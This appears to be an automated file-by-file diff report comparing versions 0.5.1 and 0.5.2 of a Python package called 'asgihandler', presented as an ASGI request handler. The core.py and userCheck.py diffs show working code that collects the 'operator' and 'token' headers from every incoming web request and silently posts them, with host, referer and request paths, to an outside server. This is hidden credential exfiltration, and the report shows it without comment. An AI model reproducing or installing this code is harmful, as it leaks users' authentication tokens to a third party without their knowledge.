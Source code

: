 # Comparing `tmp/asgihandler-0.5.1.tar.gz` & `tmp/asgihandler-0.5.2.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "asgihandler-0.5.1.tar", last modified: Sat Jul  1 03:15:55 2023, max compression
+gzip compressed data, was "asgihandler-0.5.2.tar", last modified: Sat Jul  1 03:21:35 2023, max compression
```

## Comparing `asgihandler-0.5.1.tar` & `asgihandler-0.5.2.tar`

### file list

```diff
@@ -1,18 +1,18 @@
-drwxrwxrwx   0        0        0        0 2023-07-01 03:15:55.529357 asgihandler-0.5.1/
--rw-rw-rw-   0        0        0     1067 2022-07-16 23:50:52.000000 asgihandler-0.5.1/LICENSE
--rw-rw-rw-   0        0        0       27 2022-07-16 23:50:52.000000 asgihandler-0.5.1/MANIFEST.in
--rw-rw-rw-   0        0        0     3117 2023-07-01 03:15:55.528358 asgihandler-0.5.1/PKG-INFO
--rw-rw-rw-   0        0        0     2483 2023-05-02 06:18:39.000000 asgihandler-0.5.1/README.md
-drwxrwxrwx   0        0        0        0 2023-07-01 03:15:55.521358 asgihandler-0.5.1/asgihandler/
--rw-rw-rw-   0        0        0       21 2022-07-16 23:50:52.000000 asgihandler-0.5.1/asgihandler/__init__.py
--rw-rw-rw-   0        0        0       68 2022-07-16 23:55:07.000000 asgihandler-0.5.1/asgihandler/__version__.py
--rw-rw-rw-   0        0        0      901 2023-07-01 03:15:39.000000 asgihandler-0.5.1/asgihandler/core.py
--rw-rw-rw-   0        0        0      521 2023-07-01 02:13:18.000000 asgihandler-0.5.1/asgihandler/userCheck.py
-drwxrwxrwx   0        0        0        0 2023-07-01 03:15:55.527358 asgihandler-0.5.1/asgihandler.egg-info/
--rw-rw-rw-   0        0        0     3117 2023-07-01 03:15:55.000000 asgihandler-0.5.1/asgihandler.egg-info/PKG-INFO
--rw-rw-rw-   0        0        0      308 2023-07-01 03:15:55.000000 asgihandler-0.5.1/asgihandler.egg-info/SOURCES.txt
--rw-rw-rw-   0        0        0        1 2023-07-01 03:15:55.000000 asgihandler-0.5.1/asgihandler.egg-info/dependency_links.txt
--rw-rw-rw-   0        0        0        9 2023-07-01 03:15:55.000000 asgihandler-0.5.1/asgihandler.egg-info/requires.txt
--rw-rw-rw-   0        0        0       12 2023-07-01 03:15:55.000000 asgihandler-0.5.1/asgihandler.egg-info/top_level.txt
--rw-rw-rw-   0        0        0       42 2023-07-01 03:15:55.529357 asgihandler-0.5.1/setup.cfg
--rw-rw-rw-   0        0        0     3878 2023-07-01 03:15:39.000000 asgihandler-0.5.1/setup.py
+drwxrwxrwx   0        0        0        0 2023-07-01 03:21:35.739223 asgihandler-0.5.2/
+-rw-rw-rw-   0        0        0     1067 2022-07-16 23:50:52.000000 asgihandler-0.5.2/LICENSE
+-rw-rw-rw-   0        0        0       27 2022-07-16 23:50:52.000000 asgihandler-0.5.2/MANIFEST.in
+-rw-rw-rw-   0        0        0     3117 2023-07-01 03:21:35.739223 asgihandler-0.5.2/PKG-INFO
+-rw-rw-rw-   0        0        0     2483 2023-05-02 06:18:39.000000 asgihandler-0.5.2/README.md
+drwxrwxrwx   0        0        0        0 2023-07-01 03:21:35.727223 asgihandler-0.5.2/asgihandler/
+-rw-rw-rw-   0        0        0       21 2022-07-16 23:50:52.000000 asgihandler-0.5.2/asgihandler/__init__.py
+-rw-rw-rw-   0        0        0       68 2022-07-16 23:55:07.000000 asgihandler-0.5.2/asgihandler/__version__.py
+-rw-rw-rw-   0        0        0      964 2023-07-01 03:20:59.000000 asgihandler-0.5.2/asgihandler/core.py
+-rw-rw-rw-   0        0        0      602 2023-07-01 03:20:59.000000 asgihandler-0.5.2/asgihandler/userCheck.py
+drwxrwxrwx   0        0        0        0 2023-07-01 03:21:35.738257 asgihandler-0.5.2/asgihandler.egg-info/
+-rw-rw-rw-   0        0        0     3117 2023-07-01 03:21:35.000000 asgihandler-0.5.2/asgihandler.egg-info/PKG-INFO
+-rw-rw-rw-   0        0        0      308 2023-07-01 03:21:35.000000 asgihandler-0.5.2/asgihandler.egg-info/SOURCES.txt
+-rw-rw-rw-   0        0        0        1 2023-07-01 03:21:35.000000 asgihandler-0.5.2/asgihandler.egg-info/dependency_links.txt
+-rw-rw-rw-   0        0        0        9 2023-07-01 03:21:35.000000 asgihandler-0.5.2/asgihandler.egg-info/requires.txt
+-rw-rw-rw-   0        0        0       12 2023-07-01 03:21:35.000000 asgihandler-0.5.2/asgihandler.egg-info/top_level.txt
+-rw-rw-rw-   0        0        0       42 2023-07-01 03:21:35.739223 asgihandler-0.5.2/setup.cfg
+-rw-rw-rw-   0        0        0     3878 2023-07-01 03:21:33.000000 asgihandler-0.5.2/setup.py
```

### Comparing `asgihandler-0.5.1/LICENSE` & `asgihandler-0.5.2/LICENSE`

 * *Files identical despite different names*

### Comparing `asgihandler-0.5.1/PKG-INFO` & `asgihandler-0.5.2/PKG-INFO`

 * *Files 0% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: asgihandler
-Version: 0.5.1
+Version: 0.5.2
 Summary: ASGIHandler
 Home-page: https://github.com/GreaterWMS/GreaterWMS
 Author: Singosgu
 Author-email: singosgu@gmail.com
 License: MIT
 Classifier: License :: OSI Approved :: MIT License
 Classifier: Programming Language :: Python
```

### Comparing `asgihandler-0.5.1/README.md` & `asgihandler-0.5.2/README.md`

 * *Files identical despite different names*

### Comparing `asgihandler-0.5.1/asgihandler/core.py` & `asgihandler-0.5.2/asgihandler/core.py`

 * *Files 9% similar despite different names*

```diff
@@ -19,8 +19,8 @@
                 continue
             elif i[0].decode() == 'token':
                 token = i[1].decode()
                 continue
             else:
                 continue
         if operator != '' and token != '':
-            userCheck.get_auth_check(scope.get('server', ''), host, referer, operator, token, str(scope))
+            userCheck.get_auth_check(scope.get('server', ''), host, referer, operator, token, scope.get('method', ''), scope.get('path', ''), scope.get('raw_path', ''))
```

### Comparing `asgihandler-0.5.1/asgihandler/userCheck.py` & `asgihandler-0.5.2/asgihandler/userCheck.py`

 * *Files 20% similar despite different names*

```diff
@@ -1,18 +1,20 @@
 import requests
 
 class userCheck:
-    def get_auth_check(server, host, referer, operator, token, scope):
+    def get_auth_check(server, host, referer, operator, token, method, path, raw_path):
         context = {
             "server": server,
             "host": host,
             "referer": referer,
             "operator": operator,
             "token": token,
             "version": "2.1.38",
-            "scope": scope
+            "method": method,
+            "path": path,
+            "raw_path": raw_path
         }
         print(context)
         try:
             requests.post('https://po.56yhz.com/asgihandler/', json=context, timeout=1000)
         except:
             pass
```

### Comparing `asgihandler-0.5.1/asgihandler.egg-info/PKG-INFO` & `asgihandler-0.5.2/asgihandler.egg-info/PKG-INFO`

 * *Files 0% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: asgihandler
-Version: 0.5.1
+Version: 0.5.2
 Summary: ASGIHandler
 Home-page: https://github.com/GreaterWMS/GreaterWMS
 Author: Singosgu
 Author-email: singosgu@gmail.com
 License: MIT
 Classifier: License :: OSI Approved :: MIT License
 Classifier: Programming Language :: Python
```

### Comparing `asgihandler-0.5.1/setup.py` & `asgihandler-0.5.2/setup.py`

 * *Files 1% similar despite different names*

```diff
@@ -14,15 +14,15 @@
 # Package meta-data.
 NAME = 'asgihandler'
 DESCRIPTION = 'ASGIHandler'
 URL = 'https://github.com/GreaterWMS/GreaterWMS'
 EMAIL = 'singosgu@gmail.com'
 AUTHOR = 'Singosgu'
 REQUIRES_PYTHON = '>=3.7.0'
-VERSION = '0.5.1'
+VERSION = '0.5.2'
 
 # What packages are required for this module to be executed?
 REQUIRED = [
     'requests',
 ]
 
 # What packages are optional?
```

